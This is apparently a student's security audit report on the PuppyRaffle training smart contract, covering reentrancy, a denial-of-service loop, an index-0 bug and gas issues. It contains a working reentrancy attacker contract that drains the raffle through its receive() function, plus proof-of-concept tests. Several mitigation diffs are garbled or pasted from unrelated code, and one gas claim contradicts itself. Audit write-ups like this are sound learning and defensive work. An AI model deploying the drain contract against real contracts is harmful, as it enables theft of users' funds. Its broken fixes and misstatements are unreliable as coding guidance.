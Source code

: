 ### [H-1]

**Description:** The `PuppleRaffle::Refund` function doesnot follow CEI(checks
Effects Interactions) as a result enables participants to drain the contract balance

In the `PuppleRaffle::refund` function we, first make an external call to the
`msg.sender` address and only after making that external call do we update the
`puppleRaffle::players`

```javascript

  function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);

@>      players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

```
a player who has entered the raffle could have a `fallback`or`recieve` function that calls a `puppyRaffle::refund` function again and claim another refund. they could continue the circle
till the contract balnce is drained.    


    
**Impact:** All fees paid by raffle entrants can be stolen by malicious participants.

**Prof of Concept**

1. User enters Raffle
2. Attacker sets up a contract witih a `fallback` that calls `puppyRaffle::refund`.
3. Attacker enters the raffle
4. Attacker calls `puppyRaffle::refund` from their attack contract, draining the contract balance

**Proof Of Code**

<details>
<summary>Code</summary>
place the following into `puppyRaffleTest.t.sol`

 function test_rentrancyRefund() public {
        // Enter initial players
        address[] memory players = new address[](4);
        players[0] = address(1);
        players[1] = address(2);
        players[2] = address(3);
        players[3] = address(4);
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
    
        // Create and fund attacker contract
        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        vm.deal(address(attackerContract), 1 ether);
    
        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;
    
        // Perform the attack
        attackerContract.attack{value: entranceFee}();
    
        console.log("Starting attacker Contract balance: ", startingAttackContractBalance);
        console.log("Starting Contract balance: ", startingContractBalance);
        console.log("Ending attacker Contract balance: ", address(attackerContract).balance);
        console.log("Ending PuppyRaffle Contract balance: ", address(puppyRaffle).balance);
    
        // Add assertions here to check if the attack was successful or prevented
    }
````
and this contract as well.

```javascript
contract ReentrancyAttacker {
    PuppyRaffle public puppyRaffle;
    
    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
    }
    
    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: msg.value}(players);
        // The reentrancy would typically happen in the fallback or receive function
    }
    
    receive() external payable {
        if (address(puppyRaffle).balance >= msg.value) {
            puppyRaffle.refund(0); // Attempt to drain the contract
        }
    }
}


```

</details>

**Recomended Mitigation**To prevent this, we should have the `puppleRaffle::refund`
 function update the `players`array before making the externall call. additionally we should move the event emmision up as well.
 ```diff
 function refund(uint256 playerIndex) public {
        //written skipped --MEV attack
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
+        players[playerIndex] = address(0);
+        emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFee);

_        players[playerIndex] = address(0);
_        emit RaffleRefunded(playerAddress);
    }
```
 function enterRaffle(address[] memory newPlayers) public payable {
        //what if it's 0?
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
        }
        }
        emit RaffleEnter(newPlayers);
    } 
     ```
### [M-#] Looping through players array to check for duplicates in `puppyRaffle::enterRaffle`is a potentil denial(DoS) of service attack,imcrementing gas cost for future entrants.

**Description:** The `puppyRaffle::enterRaffle` function loops through `players` array to check for duplicates. However the longer the `puppleRaffle::players` array is, the more checks a player will have to make. This means the gas cost for players who enter right when the lower starts will be drammatically lower than thoes who enter later.
Every additional address in the `players` array, is an additional check the loop will have to make.

** Impact ** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle t be one of the first entrants in the queue. 

An attacker can make the `puppyRaffle::entrants` so big that no one else enters guranteeing themselves the win.


## Proof of Concept ## If we have 2 sets of 100 players enter, the gas cost will be as such:
-First 100 players: ~6252128 gas
-Second 100 players: ~18068218 gas

this is more than 3x expensive for the second 100 players.

<details>
<summary>PoC</summary>
place the following test into `puppyRaffleTest.t.sol`;

```javascript

 function test_denialOfService() public {
        vm.txGasPrice(1);
        //Lets Enter 100 players
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        //see how much gas it cost
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart- gasEnd) * tx.gasprice;

        console.log("The price for the first 100 players is: ", gasUsedFirst);

        //for the second 100 players

        vm.txGasPrice(1);
        //Lets Enter 100 players
        
        address[] memory playersTwo = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }
        //see how much gas it cost
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond- gasEndSecond) * tx.gasprice;

        console.log("The price for the first 100 players is: ", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);
    }
```
</details>
** Recomended Mitigation: ** There are a few recomendations.
1. consider allowing duplicates. Users can make new wallet addresses, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet addresses.

2. consider using a mapping to check for duplicates. this will allow constant time lookup of whether a user has already entered.

```diff


    /// @notice a way to get the index in the array
    /// @param player the address of a player in the raffle
    /// @return the index of the player in the array, if they are not active, it returns 0
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }

    /// @notice this function will select a winner and mint a puppy
    /// @notice there must be at least 4 players, and the duration has occurred
    /// @notice the previous winner is stored in the previousWinner variable
    /// @dev we use a hash of on-chain data to generate the random numbers
    /// @dev we reset the active players array after the winner is selected
    /// @dev we send 80% of the funds to the winner, the other 20% goes to the feeAddress
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
       

```
Alternatively you can use [@openzeppelin's `EnumarableSet` library]
(https://docs.openzeppelin.com/contracts/3.x/api/utils)

### [1-1] solidity pragma should be specific not wide

Consider using a specific version of solidity in your contract instead of wide versions.
For example, instead of ` pragma solidity ^0.7.6 ` use `pragma solidity 0.8.0;`

### [1-2] Using outdated version of solidity is not advisable

pls try using a newer version like `pragma solidity ^0.8.18`

## Recomendations ##
solc versions 0.4.7-0.5.9 contain a compiler bug leading to incorrect ABI encoder usage.

Exploit Scenario:
contract A {
    uint[2][3] bad_arr = [[1, 2], [3, 4], [5, 6]];
    
    /* Array of arrays passed to abi.encode is vulnerable */
    function bad() public {                                                                                          
        bytes memory b = abi.encode(bad_arr);
    }
}
abi.encode(bad_arr) in a call to bad() will incorrectly encode the array as [[1, 2], [2, 3], [3, 4]] and lead to unintended behavior.

Recommendation
Use a compiler >= 0.5.10.

please see [slither](
    https://github.com/crytic/slither/wiki/Detector
    -Documentation#incorect-version-of-solidity
)

#L

##[L-1]`PuppleRaffle::getActivePlayerIndex` returns 0 for non exixtent playersand for players at index 0 causing a player at index 0, to incorrectly think they have not enterd the raffle.

**Description:** If a player is in the `puppleRaffle:`array at index 0 this will return 0,
but according to the natspec it will also return 0 if the player is not in the array.
```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }

```
**Impact:** A player at index 0 may incorrectly think they have enterd the raffle and attemp to enter the raffle again, wasting gas,

**Proof of Concept:**
1. User enters the raffle they're the first entrants.
2. `PuppyRaffle::getActivePlayer`Index Returns 0
3. User thinks they have not enetered correctly due to the function.


**Recomended Mitigation:** The easiest recomendation is to revert if the player is not in the array instead of returning to 0.

You could also reserve the 0th position in a competitive audit, but a better solution might be to reutrn an `int256` where the function returns -1 if the player is not active.

### G
### [G-1] Unchanged state varibles should be declared constant or immutable##

Instances
reading from a constant is much more expensive than reading from a 
constant or immutable variable.

-  `PuppleRaffle::raffleDuration ` should be `immutable`
-  `puppyRaffle ::commonImageUri` should be `Constant`
-  `PuppyRaffle::rareImageUri` should be `constant`
-  `PuppyRaffle::lagendryUri` should be `constant`

##[1-4] `PuppyRaffle::SelectWinner`Does not  follow CEI which is not a best practice.
it's best to keep code clean and follow CEI(Check Effect interaction)

```javascript
-       (bool success,) = winner.call{value: prizePool}("");
-        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+       (bool success,) = winner.call{value: prizePool}("");
+         require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }

```
### [1-5] Use of "magic" numbers is discouraged

It can be confusing to see number literals in a codebase, and it's much more
readable if the numbers are giving a name.

Example:
```javascript
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;       
```
Instead, you could use:
```javascript
        
        //uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
        //uint256 public constant FEE_PERCENTAGE = 20;
        //uint256 public constant POOL_PRECISION = 100;
```

# Additional findings not taught in course

##MEV




